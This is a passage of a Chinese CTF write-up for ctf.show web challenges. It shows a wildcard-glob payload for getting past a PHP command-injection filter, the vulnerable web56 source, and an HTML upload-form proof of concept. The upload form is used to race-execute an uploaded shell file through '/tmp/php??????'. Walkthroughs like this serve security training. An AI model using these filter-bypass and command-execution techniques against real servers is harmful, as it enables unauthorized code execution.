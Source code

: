 > 



> 
Payload


```
?c=/???/????64 ???????? 或者 ?c=/???/???/????2 ????????

```

## web56

> 
源码


```
&lt;?php

// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\&gt;|\&lt;/i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
} 

```

> 
可以通过post一个文件(文件里面的sh命令)，在上传的过程中通过`.`去执行执行这个文件，形成条件竞争，一般来说这个文件在linux下面保存在`/tmp/php??????`，一般后面的6个字符是随机生成的有大小写，可以通过linux的匹配符去匹配（注意：通过`.`去执行sh命令不需要有执行权限）


```
&lt;!DOCTYPE html&gt;
&lt;html lang="en"&gt;
&lt;head&gt;
    &lt;meta charset="UTF-8"&gt;
    &lt;meta name="viewport" content="width=device-width, initial-scale=1.0"&gt;
    &lt;title&gt;POST数据包POC&lt;/title&gt;
&lt;/head&gt;
&lt;body&gt;
&lt;form action="http://46230c96-8291-44b8-a58c-c133ec248231.chall.ctf.show/" method="post" enctype="multipart/form-data"&gt;
&lt;!--链接是当前打开的题目链接--&gt;
    &lt;label for="file"&gt;文件名：&lt;/label&gt;
    &lt;input type="file" name="file" id="file"&gt;&lt;br&gt;
    &lt;input type="submit" name="submit" value="提交"&gt;
&lt;/form&gt;
&lt;/body&gt;
&lt;/html&gt;

```
